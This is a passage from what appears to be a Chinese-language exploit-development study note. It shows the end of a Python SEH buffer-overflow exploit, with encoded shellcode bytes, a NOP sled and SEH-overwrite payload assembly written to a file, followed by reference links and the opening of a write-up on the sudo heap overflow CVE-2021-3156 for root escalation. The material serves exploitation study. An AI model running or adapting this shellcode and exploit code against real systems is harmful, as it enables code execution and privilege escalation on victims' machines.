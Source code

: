 ```python
"\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
"\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
"\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
"\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
"\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
"\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
"\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
"\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
"\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
"\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
"\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
"\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
"\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
"\x4e\x36\x43\x46\x42\x50\x5a")

junk3 = "\x90"*1000
data = data + nextseh + seh + junk2+ shellcode + junk3
f = open(name,'w')
f.write(data)
f.close()
```

### 参考链接

- http://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/  (讲windows seh的,写的非常详细)
- https://terenceli.github.io/%E6%8A%80%E6%9C%AF/2014/04/07/seh-exploit (讲如何溢出soritong.exe的)
- https://www.cnblogs.com/cjhk/p/11598690.html -----C语言中的转义字符
- http://c.biancheng.net/c/ascii/  -----ascii
- https://pukrr.github.io/2020/05/05/%E5%88%A9%E7%94%A8SEH%E9%93%BE%E7%9A%84%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA/

## 堆溢出

sudo是Linux中一个非常重要的管理权限的软件，它允许用户使用 root 权限来运行程序。而CVE-2021-3156是sudo中存在一个堆溢出漏洞。通过该漏洞，任何没有特权的用户均可使用默认的sudo配置获取root权限。

该漏洞可以影响从1.8.2~1.8.31p2下的所有旧版本sudo

在主要参考的资料中，已经对该漏洞的成因介绍的非常详细了。所以在这里只总结一些自认为比较细节的地方把。

### 细节问题

```C++
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include<math.h>

#define __LC_CTYPE               0
#define __LC_NUMERIC             1
#define __LC_TIME                2
#define __LC_COLLATE             3
#define __LC_MONETARY            4
#define __LC_MESSAGES            5
#define __LC_ALL                 6
#define __LC_PAPER               7
#define __LC_NAME                8
#define __LC_ADDRESS             9
#define __LC_TELEPHONE          10
#define __LC_MEASUREMENT        11
#define __LC_IDENTIFICATION     12

```
